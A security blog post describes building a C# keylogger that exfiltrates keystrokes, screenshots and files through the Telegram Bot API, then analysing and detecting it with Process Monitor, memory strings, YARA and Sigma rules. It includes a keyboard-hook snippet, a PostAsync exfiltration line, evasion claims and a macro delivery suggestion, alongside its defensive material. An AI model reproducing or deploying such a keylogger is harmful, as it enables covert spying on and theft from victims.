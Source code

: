 ```yaml
---
layout: post
title: "Simulating the Adversary - Building and Hunting My Own Malware"
date: 2025-07-18
categories: [research]
tags: [malware, keylogger, telegram, c2, hunting, analysis]
permalink: /research/2025/07/18/simulating-the-adversary-building-and-hunting-my-own-malware.html
---
```


> **How the idea of the project came to mind:**

After completing the TryHackMe SOC Level 1 path and diving into Sektor7's Windows malware dev courses, I came across a video by [@John Hammond](https://www.youtube.com/watch?v=03FPDBjpsKo) showcasing a threat actor using **Telegram Webhooks as a C2 channel**. That sparked the idea: *How can this technique be replicated, investigated, and mapped back to active infrastructure for detection or takedown?*


![Project Overview](/static/img/Simulating_the_Adversary_images/Pasted image 20250716075351.png)
![Project Setup](/static/img/Simulating_the_Adversary_images/Pasted image 20250716075452.png)

> Malware Design & Capabilities

The infected.exe was built in C# and it acts as a keylogger with added support for file download, clipboard sniffing, active window tracking, and it handles multiple sessions. I ran it against Windows 11 with Defender enabled inside a sandboxed VM — no alerts, no obvious flags.

It avoids traditional offensive techniques, instead relying on native Windows APIs to operate under the radar which makes it low-noise on EDRs. It's a good example of LOLBAS-style malware, using the system's own functionality against itself.

It leverages `SetWindowsHookEx` with the `WH_KEYBOARD_LL` flag for stealthy input capture:
```
IntPtr hook = SetWindowsHookEx(WH_KEYBOARD_LL, KeyboardCallback, GetModuleHandle(null), 0);
```

For C2, it uses **Telegram Bot API** via:
```
HttpClient.PostAsync("https://api.telegram.org/botXXX/sendMessage", content);
```
- **DNS fronting** using a custom domain on Cloudflare
- Encrypted via HTTPS 

*Commands*:
 /capture - Screenshot 
![Screenshot Command](/static/img/Simulating_the_Adversary_images/Pasted image 20250716082507.png)
 /report 
![Report Command](/static/img/Simulating_the_Adversary_images/Pasted image 20250716082939.png)
/fetch - Download files up to 50mb from the target machine
![Fetch Command](/static/img/Simulating_the_Adversary_images/Pasted image 20250716082247.png)
 /browse - Search through C:\
![Browse Command](/static/img/Simulating_the_Adversary_images/Pasted image 20250716082422.png)
 /metrics - Retrieve log file

The technique could be further enhanced by hosting the payload on a VPS and delivering it via a **Word VBA macro**, allowing execution without raising suspicion typically associated with a standalone .exe.
![VirusTotal Scan](/static/img/Simulating_the_Adversary_images/Pasted image 20250717091415.png)



> Behavioral Analysis & Artifacts

Process Explorer
![Process Explorer](/static/img/Simulating_the_Adversary_images/Pasted image 20250717130737.png)

We see user32.dll and kernel32.dll ( We know we use it for keylogging hooks )
![DLL Analysis](/static/img/Simulating_the_Adversary_images/Pasted image 20250717131823.png)
We confirm again with:
![Confirmation](/static/img/Simulating_the_Adversary_images/Pasted image 20250717132012.png)

**Finding:**  
The malware spawns from explorer.exe and loads:
- `user32.dll` (keylogging hooks)
- `kernel32.dll` (file operations)

We can confirm this is a keylogger by the string "WH_KEYBOARD_LL" and "SetWindowsHookEx"
![String Analysis](/static/img/Simulating_the_Adversary_images/Pasted image 20250717142214.png)

 A simple way to uncover a Telegram bot token is by running strings.exe on a memory dump and filtering with the following regex:
```
\d{9,10}:[a-zA-Z0-9_-]{35}
```

And Voilà! 
![Token Discovery](/static/img/Simulating_the_Adversary_images/Pasted image 20250717144821.png)


To trace the malware's behavior, I used Process Monitor with targeted filters:
- **Process Name** = infected.exe
- **Operation** contains Reg → to track registry access, especially persistence-related keys
- **Path** contains Temp → to catch any dropped or staged files

We apply the filters and we find that a file was created in Temp directory!
![Process Monitor](/static/img/Simulating_the_Adversary_images/Pasted image 20250717133346.png)

Upon checking the file we find the Admin ID of the Telegram Bot owner alongside all of the commands executed!
![Admin ID Discovery](/static/img/Simulating_the_Adversary_images/Pasted image 20250717134121.png)

The malware repeatedly attempts to load a non-existent DLL (relsave.dll) as part of its evasion logic. It also accesses device-related registry keys, part of my persistence testing during development.
![Registry Analysis](/static/img/Simulating_the_Adversary_images/Pasted image 20250717135303.png)

Now that we have both the **Admin ID** and **Bot Token**, something interesting came up:
![Bot Interaction](/static/img/Simulating_the_Adversary_images/Pasted image 20250717153352.png)
By sending a message to the bot using a simple curl request as long as we have the full Telegram API endpoint we can trigger a response that reveals the username of the account controlling the bot while also sending a message :D


> Network Traffic

Unfortunately, this method won't reveal the token in our case, since the payload uses **DNS fronting** and **`CryptDecrypt.dll`** to keep the token encrypted in memory.
![Network Analysis](/static/img/Simulating_the_Adversary_images/Pasted image 20250717141704.png)
![Encrypted Traffic](/static/img/Simulating_the_Adversary_images/Pasted image 20250717154252.png)


> Mitigation & Defensive Strategy

*Mitigation*
The first step in disrupting this C2 channel is revoking the bot.
```
curl -X POST "https://api.telegram.org/botTOKEN/revoke"  # Replace Token
```

*Network Mitigation*
Block `api.telegram.org` and IP ranges:
- 149.154.167.0/24
- 91.108.4.0/22
Add to proxy/firewall rules and alert on unexpected TLS traffic.


*Defensive Strategies*
A. YARA Rule for Static Detection
```
rule Telegram_Keylogger {
   meta:
      description = "Detects Telegram C2 keyloggers"
   strings:
      $s1 = "WH_KEYBOARD_LL" ascii wide
      $s2 = "/bot" wide
      $s3 = "SetWindowsHookEx" fullword
   condition:
      any of them
}
```

B. Sigma Rule (SIEM Alerting)
```
title: Telegram Keylogger Activity
logsource:
  category: proxy
detection:
  selection:
    dst_port: 443
    dst_ip: 
      - "149.154.167.220"  # Telegram API IP
    method: "POST"
    url: 
      - "/bot*/sendMessage"
      - "/bot*/sendDocument"
  condition: selection
level: high
```




